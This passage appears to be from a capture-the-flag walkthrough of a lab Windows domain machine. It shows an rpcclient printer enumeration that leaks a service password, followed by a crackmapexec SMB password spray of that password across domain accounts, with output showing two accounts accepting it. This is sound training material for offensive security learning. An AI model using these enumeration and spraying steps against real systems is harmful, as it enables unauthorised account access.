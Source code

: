* I added these new users into the users file and place the new ones in their own seperate file called domusers

{% code overflow="wrap" %}
```
rpcclient $> enumprinters
        flags:[0x800000]
        name:[\\10.129.54.112\HP-MFT01]
        description:[\\10.129.54.112\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
```
{% endcode %}

* <mark style="color:yellow;">Password: $fab@s3Rv1ce$1</mark>
  * <mark style="color:yellow;">Place the new password in a new password.txt</mark>
* With these new credentials, let's spray the target again

```
crackmapexec smb 10.129.54.112 -u domusers -p password.txt --continue-on-success

SMB         10.129.54.112   445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.129.54.112   445    FUSE             [-] fabricorp.local\Administrator:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.129.54.112   445    FUSE             [-] fabricorp.local\Guest:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.129.54.112   445    FUSE             [-] fabricorp.local\krbtgt:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.129.54.112   445    FUSE             [-] fabricorp.local\DefaultAccount:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.129.54.112   445    FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 
SMB         10.129.54.112   445    FUSE             [-] fabricorp.local\bnielson:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.129.54.112   445    FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.129.54.112   445    FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.129.54.112   445    FUSE             [-] fabricorp.local\pmerton:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.129.54.112   445    FUSE             [+] fabricorp.local\svc-scan:$fab@s3Rv1ce$1 
SMB         10.129.54.112   445    FUSE             [-] fabricorp.local\bhult:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.129.54.112   445    FUSE             [-] fabricorp.local\dandrews:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.129.54.112   445    FUSE             [-] fabricorp.local\mberbatov:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.129.54.112   445    FUSE             [-] fabricorp.local\astein:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.129.54.112   445    FUSE             [-] fabricorp.local\dmuir:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
```

Successful
